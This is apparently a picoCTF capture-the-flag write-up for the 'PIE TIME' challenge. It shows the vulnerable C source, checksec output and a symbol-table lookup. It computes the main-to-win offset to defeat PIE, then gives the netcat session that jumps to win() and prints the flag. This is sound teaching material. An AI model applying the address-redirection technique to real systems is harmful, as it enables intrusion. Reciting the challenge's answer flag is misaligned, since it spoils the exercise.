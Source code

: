 # PIE TIME : Binary Exploitation

Can you try to get the flag? Beware we have PIE! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 56039

The program's source code can be downloaded [here](vuln.c). The binary can be downloaded [here](vuln).


Author : Darkraicg492

# Solution

For now, try running it.
```
$ nc rescued-float.picoctf.net 56039
Address of main: 0x5b040547233d
Enter the address to jump to, ex => 0x12345: 0x5b040547233d
Your input: 5b040547233d
Address of main: 0x5b040547233d
Enter the address to jump to, ex => 0x12345:
```
Be able to jump to any address.  
Check the source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
```
There is a win(), so if I enter the address of the win(), I will get the flag.
```
$ checksec vuln
[*] '/home/colza-picoctf/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Since PIE is enabled, calculate the difference between the addresses of main() and win() in advance.
```
66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
67: 0000000000004020     0 NOTYPE  GLOBAL DEFAULT   26 _end
68: 00000000000011a0    47 FUNC    GLOBAL DEFAULT   16 _start
69: 0000000000004010     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main
```
The difference is `0x12a7 - 0x133d = -0x96`.  
Input the address of the main function which output at runtime plus -0x96.
```
$ nc rescued-float.picoctf.net 56039
Address of main: 0x628f1fcd933d
Enter the address to jump to, ex => 0x12345: 0x628f1fcd92a7
Your input: 628f1fcd92a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
```

Get flag!

`picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}`
